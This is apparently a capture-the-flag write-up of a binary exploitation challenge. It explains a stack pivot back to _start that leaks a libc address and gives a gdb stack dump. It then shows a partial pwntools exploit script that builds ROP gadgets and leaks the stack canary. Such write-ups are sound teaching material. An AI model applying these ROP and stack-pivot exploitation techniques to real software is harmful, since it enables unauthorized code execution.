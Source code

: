 he solution is abit creative - notice that while main’s return address is `__libc_start_main`, the latter’s return address is `_start`. This means it resides somewhere on the stack too. \
This is `0x80` bytes after the input buffer. 

By pivoting the stack address to that place, we can easily jump back to `_start`, leaking a libc address, and pwning the binary using regular libc gadgets. 

This is the layout right before calling ret from main:

```bash
Breakpoint 2, 0x0000562de165b1f5 in main ()
(gdb) x/20gx $rsp
0x7fffd4a7f3c8: 0x00007f304672f083      0x00007f3047967620
0x7fffd4a7f3d8: 0x00007fffd4a7f4b8      0x0000000100000000
0x7fffd4a7f3e8: 0x0000562de165af02      0x0000562de165b200
0x7fffd4a7f3f8: 0xf1b72a34ff7e7dbf      0x0000562de165a200
0x7fffd4a7f408: 0x00007fffd4a7f4b0      0x0000000000000000
```

This means if we can find a libc gadget that would pop 6 qwords off the stack, `rsp` would point towards `0x0000562de165a200`, which is `_start`. \
However, there’s no gadget that pops 6 qwords off the stack, at least not near `0x00007f304672f083`, and we cannot call multiple gadgets, as we dont have any libc leak. Again, problem.

What we can do - is to use `pop rsp, ret` gadget. We can set `rsp` to our desired stack address, `0x7fffd4a7f3f0` in the above example. 
The nearest pop rsp gadget resides at 0x23b64 within the provided libc, hence requires 1 byte libc address BF. But recall we can't write past the fake libc return address! hence, this gadget won't help us too.

Instead, we can just BF 3 bytes, jumping to the `leave; ret` gadget within libc. 

```python
def main(): 
    elf = ELF(BINARY)
    libc = ELF(LIBC)
    elf_bin_padding = elf.symbols['bin_padding']
    elf_puts = elf.symbols['puts']
    elf_start = elf.symbols['_start']
    elf_puts_got = elf.got['puts']
    libc_environ = libc.symbols['environ']
    libc_puts = libc.symbols['puts']
    libc_chmod = libc.symbols['chmod']

    rop = ROP(BINARY)
    pop_rdi_ret = rop.find_gadget(['pop rdi']).address
    pop_rsi_ret = rop.find_gadget(['pop rsi']).address
    leave_ret = rop.find_gadget(['leave']).address

    libc_rop = ROP(LIBC)
    libc_leave_ret = libc_rop.find_gadget(['leave']).address
    libc_pop_rdi_ret = 0x23b6a  # libc_rop.find_gadget(['pop rdi']).address
    libc_pop_rsi_ret = 0x2601f  # libc_rop.find_gadget(['pop rsi']).address
    # interesting gadget - lea esp, [rbp - 0x18] ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret
    padding = 0x38

    while True:
        with process(BINARY) as p:
            try:
                # p = gdb.debug(BINARY, GDB_SCRIPT)
                # p = process(BINARY)
                time.sleep(0.05)

                # PHASE 0 - leak canary value
                p.recvuntil(b'is located at: ')
                input_addr = int(p.recv(14), 16)
                canary_address = hex(input_addr + padding)
```